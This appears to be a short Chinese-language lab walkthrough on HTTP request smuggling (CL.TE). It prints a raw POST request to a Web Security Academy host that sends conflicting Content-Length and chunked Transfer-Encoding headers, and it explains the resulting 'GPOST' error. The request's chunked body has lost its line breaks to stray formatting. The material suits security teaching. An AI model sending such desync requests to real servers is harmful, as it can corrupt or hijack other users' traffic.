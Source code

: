 ```
POST / HTTP/1.1
Host: 0a5c005b031de1e4c0ef4924003b00cb.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: **chunked****0****G**
```

将此请求发送两次，第一次响应应为 200 ok，第二次响应应为

![](img/03dedb3e7e0f8196e6f73539561fd742.png)

我们可以看到服务器无法识别该方法，但是我们发送 POST 方法的方式就是响应显示 GPOST 的原因。

这是因为由于我们的头操作，服务器混淆了内容长度和传输编码，无法确定我们发送的第一个请求的结束，留下的数据被附加到下一个请求，这使得 POST 到 GPOST。

如果我们在第一个请求的 post 数据中发送 L，我们将在下一个请求的响应中得到一个 LPOST 错误。

![](img/4221fa6c489d84c22db08fdd5385cb4f.png)
